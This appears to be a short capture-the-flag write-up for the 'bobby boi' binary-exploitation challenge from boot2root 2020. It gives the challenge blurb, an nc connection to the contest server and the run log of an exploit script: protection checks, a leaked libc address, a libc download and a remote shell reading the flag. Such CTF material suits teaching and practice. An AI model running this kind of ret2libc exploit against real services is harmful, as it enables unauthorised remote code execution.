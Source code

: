  bobby boi
493

My boi bobby claims to be the new MC, do you have the bars to defeat him in a rap battle? Bobby will need the length of your bars beforehand tho.

nc 35.238.225.156 1002

Author: Viper_S



```shell
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/bobby_boi/bobby_boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './bobby_boi'
[*] puts: 0x7fefaaaee6a0
[*] libc_url: https://libc.rip/download/libc6_2.23-0ubuntu11.2_amd64.so
[*] getting: https://libc.rip/download/libc6_2.23-0ubuntu11.2_amd64.so
[*] '/pwd/datajerk/boot2root2020/bobby_boi/libc6_2.23-0ubuntu11.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fefaaa7f000
[*] Switching to interactive mode
$ cat flag
b00t2root{y3Ah_Ye4h_b0bbY_b0y_H3_B3_f33l1n_H1m5elf_SG9taWNpZGU=}
```
